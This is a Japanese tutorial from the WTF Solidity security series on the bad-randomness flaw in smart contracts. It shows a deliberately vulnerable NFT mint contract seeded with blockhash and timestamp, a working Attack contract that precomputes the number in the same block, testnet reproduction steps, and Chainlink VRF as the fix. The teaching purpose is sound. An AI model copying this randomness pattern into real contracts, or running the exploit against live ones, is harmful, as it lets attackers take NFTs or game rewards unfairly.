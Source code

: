 ```yaml
---
title: S07. 悪質な乱数
tags:
  - solidity
  - security
  - random
---
```


# WTF Solidity 合約セキュリティ: S07. 悪質な乱数

私は最近Solidityを学び直して詳細を固めており、「WTF Solidity 合約セキュリティ」を書いています。初心者向けの内容で（プログラミング上級者は他のチュートリアルをお探しください）、毎週1-3講座を更新しています。

Twitter：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

コミュニティ：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[公式サイト wtf.academy](https://wtf.academy)

すべてのコードとチュートリアルはgithubでオープンソース化されています：[github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

今回は、スマートコントラクトの悪質な乱数（Bad Randomness）脆弱性と予防方法について紹介します。この脆弱性はNFTとGameFiでよく見られ、Meebits、Loots、Wolf Gameなどが被害を受けました。

## 疑似乱数

イーサリアム上の多くのアプリケーションは乱数を必要とします。例えば、`NFT`のランダムな`tokenId`選択、ブラインドボックス、`gamefi`バトルでのランダムな勝敗決定などです。しかし、イーサリアム上のすべてのデータは公開透明（`public`）かつ決定論的（`deterministic`）であるため、他のプログラミング言語のように開発者に乱数生成メソッド（例：`random()`）を提供していません。多くのプロジェクト側は、チェーン上の疑似乱数生成方法、例えば`blockhash()`と`keccak256()`メソッドを使用せざるを得ません。

悪質な乱数脆弱性：攻撃者はこれらの疑似乱数の結果を事前に計算し、目標を達成できます。例えば、ランダムな選択ではなく、欲しいレアな`NFT`を任意にミントできます。詳細については[WTF Solidity極簡チュートリアル 第39講：疑似乱数](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random)をお読みください。

![](./img/S07-1.png)

## 悪質な乱数の事例

以下では悪質な乱数脆弱性を持つNFTコントラクト：BadRandomness.solを学習します。

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // コンストラクタ、NFTコレクションの名称、記号を初期化
    constructor() ERC721("", ""){}

    // ミント関数：入力したluckyNumberが乱数と等しい時のみmintできる
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // 悪質な乱数を取得
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

これには主要なミント関数`luckyMint()`があり、ユーザーが呼び出す際に`0-99`の数字を入力し、チェーン上で生成された疑似乱数`randomNumber`と等しければ、ラッキーNFTをミントできます。疑似乱数は`blockhash`と`block.timestamp`を使用して生成されます。この脆弱性は、ユーザーが生成される乱数を完璧に予測してNFTをミントできることです。

以下に攻撃コントラクト`Attack.sol`を作成します。

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // 乱数を事前に計算
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // luckyNumberを利用して攻撃
        nftAddr.luckyMint(luckyNumber);
    }
}
```

攻撃関数`attackMint()`のパラメータは`BadRandomness`コントラクトアドレスです。この中で乱数`luckyNumber`を計算し、それをパラメータとして`luckyMint()`関数に入力して攻撃を完了します。`attackMint()`と`luckyMint()`は同じブロック内で呼び出されるため、`blockhash`と`block.timestamp`は同じで、それらを使用して生成される乱数も同じです。

## `Remix`再現

Remix内蔵のRemix VMは`blockhash`関数をサポートしていないため、コントラクトをイーサリアムテストネットにデプロイして再現する必要があります。

1. `BadRandomness`コントラクトをデプロイします。

2. `Attack`コントラクトをデプロイします。

3. `BadRandomness`コントラクトアドレスをパラメータとして`Attack`コントラクトの`attackMint()`関数に渡して呼び出し、攻撃を完了します。

4. `BadRandomness`コントラクトの`balanceOf`を呼び出して`Attack`コントラクトのNFT残高を確認し、攻撃が成功したことを確認します。

## 予防方法

この類の脆弱性を予防するために、通常はオラクルプロジェクトが提供するオフチェーン乱数を使用します。例えばChainlink VRFです。この類の乱数はオフチェーンで生成され、その後チェーン上にアップロードされるため、乱数が予測不可能であることが保証されます。詳細については[WTF Solidity極簡チュートリアル 第39講：疑似乱数](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random)をお読みください。

## まとめ

今回は悪質な乱数脆弱性について紹介し、シンプルな予防方法を紹介しました：オラクルプロジェクトが提供するオフチェーン乱数を使用することです。NFTとGameFiプロジェクト側は、ハッカーに利用されることを防ぐため、チェーン上の疑似乱数を抽選に使用することを避けるべきです。